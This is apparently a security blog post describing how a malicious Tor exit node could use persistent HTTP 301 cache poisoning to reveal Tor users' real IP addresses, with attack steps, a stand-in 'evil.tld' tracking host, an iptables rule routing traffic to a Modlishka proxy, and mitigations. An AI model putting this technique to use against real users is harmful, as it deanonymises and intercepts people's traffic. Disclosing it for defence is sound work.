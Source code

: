 ```yaml
---
layout: post
title: Disclosing your real TOR IP address through 301 HTTP Redirect Cache Poisoning 
---
```


This blog post describes a possible technique that can be used by a malicious TOR exit node to identify real IP address of TOR users. 

This approach is based on the previously described technique of permanently hijacking certain non-TLS URLS through "[HTTP 301 Cache Poisoning](https://blog.duszynski.eu/domain-hijack-through-http-301-cache-poisoning/)" - persistence of the poisoned cache is the key element here, which makes this possible...

### Example Attack Scenario


Assumptions:
- Browser-based application (in this case a standard browser) will connect through the TOR network and, eventually, malicious TOR exit node.
- Malicious TOR exit node that is intercepting and HTTP 301 cache poisoning all of the non-tls HTTP traffic.

![Disclosing TOR client IP address](https://raw.githubusercontent.com/drk1wi/assets/master/tor_ip.png)

Lets consider the following attack scenario steps:

1. User connects to the Internet through the TOR network either by setting up browsers' settings to use the TOR SOCKS5 or system wide, where the whole OS traffic is being routed through the TOR network.
2. User begins his typical browsing session with his favorite browser, where usually a lot of non-TLS HTTP traffic is being sent through the TOR tunnel. 
3. Evil TOR exit node intercepts those non-TLS requests and responds with a HTTP 301 permanent redirect to each of them. These redirects will be cached permanently by the browser and will point to a tracking URL with an assigned TOR client identifier. 
The tracking URL can be created in the following way: http://user-identifier.evil.tld. _Evil.tld_ will collect all source IP information and redirect to the original host or to a transparent reverse proxy, such as Modlishka, in an attempt intercept all of the clients following HTTP traffic.
Furthermore, since it is also possible to carry out an automated cache pollution for the most popular domains (as described in the previous [post](https://blog.duszynski.eu/domain-hijack-through-http-301-cache-poisoning/), e.g. TOP Alexa 100 , an attacker can further try to maximize his chances of disclosing the real IP address.
4. User, after closing the TOR session, will switch back to his usual network.
5. As soon user types into the URL address bar one of the previously poisoned entries, e.g. "google.com," browser will use the cache and internally redirect to the tracking URL with an exit-node context identifier.
6. Exit node will now be able to correlate previously intercepted HTTP request and users' real IP address through the information gathered on the external host that used tracking URL with user identifier. The _evil.tld_ host will have information about all of the IP addresses that were used to access that tracking URL.

Obviously, this gives a possibility to effectively correlate chosen HTTP requests with the client IP address. This is because the previously generated tracking URL will be requested by the client through the TOR tunell and later, after disconnecting, through a standard ISP connection, because of the poisoned cache entries. 


However, it is also possible to include a dynamic and transparent reverse proxy in this scenario that will try to compromise all further HTTP encrypted traffic that is leaving the TOR exit node. 
A simple IPTABLES redirect rule would be sufficient in this case:

```bash
iptables -t nat -I POSTROUTING -p tcp --dport 80 -j SNAT --to modlishka_ip_address:80
```

Another approach, might rely on injecting modified JavaScript with embed tracking URLS into the relevant non-TLS responses and setting up the right Cache control headers (e.g. to 'Cache-Control: max-age=31536000'). However, it would rely on a single non-TLS domain and wouldn't be that effective.


### Conclusions
The fact that it is possible to achieve certain persistence in browsers cache can be abused to disclose real IP address of the TOR user by a malicious TOR exit node.

Possible mitigation:
- When connecting through TOR network only use browsers 'private' mode and close it after the TOR session is over.
- Disable all non-TLS traffic, when routing all OS traffic through the TOR network.
- Use TOR-browser whenever possible.
